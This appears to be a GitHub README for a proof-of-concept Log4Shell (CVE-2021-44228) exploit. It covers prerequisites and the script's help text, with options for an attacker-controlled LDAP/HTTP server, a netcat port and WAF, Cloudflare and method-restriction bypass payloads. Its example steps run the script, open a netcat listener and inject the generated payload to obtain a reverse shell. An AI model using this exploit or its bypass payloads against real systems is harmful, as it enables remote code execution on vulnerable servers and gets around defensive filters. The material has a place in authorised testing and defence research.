# Log4j Simple Exploit
A Proof-Of-Concept Exploit for ***CVE-2021-44228*** vulnerability.

Log4j, which is used to log security and performance information, impacts upwards of 3 billion devices that use Java across a variety of consumer and enterprise services, websites and applications, as well as medical devices and supporting systems.<br>
***Note: This is not a "point and click" exploit. The initial trigger payload will be generated, but injecting it into the appropriate place (i.e. HTTP header/chat/etc.) will be up to the user.***

## Prerequisite's
- python3
- pip install -r requirements.txt
- Install [jdk1.8.0_20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and add bin folder to enviroment variable

```
usage: python CVE-2021-44228-exploit.py --help 
[!] CVE: CVE-2021-44228
[!] This is simple Log4j exploit to get reverse shell
[!] Reference: https://akashpatil.me/log4j-guide-book.html

usage: CVE-2021-44228-exploit.py [-h] [--userip userip] [--webport webport] [--lport lport] [-b bypass]

log4shell Reverse shell exploit

optional arguments:
  -h, --help            show this help message and exit
  --userip userip       Enter IP for LDAPRefServer & Shell
  --webport webport     listener port for HTTP port
  --lport lport         Netcat Port
  -b bypass, --bypass bypass
                        Type of bypass payload. None/WAF/Methods/Cloudflare. Methods - "ldap", "jndi", or the
                        ${lower:x} method restriction bypass
```

##### Example:
1) Run the script for Linux OS with bypass payload of method
```
python poc-csw.py --userip private-ip --webport 8888 --lport 9001 -b methods
```
![](images/img1.png)
2) run netcat on port 9001 in your local machine 
```
nc -lvnp 9001
```
3) Copy the 'Try me' payload to bypass methods restriction and use it input variable to get shell in netcat
***Note:*** If No bypass is chosen use 'Send me' payload
![](images/img2.png)
![](images/img3.png)


# Reference
- https://akashpatil.me/log4j-guide-book.html
- https://github.com/kozmer/log4j-shell-poc

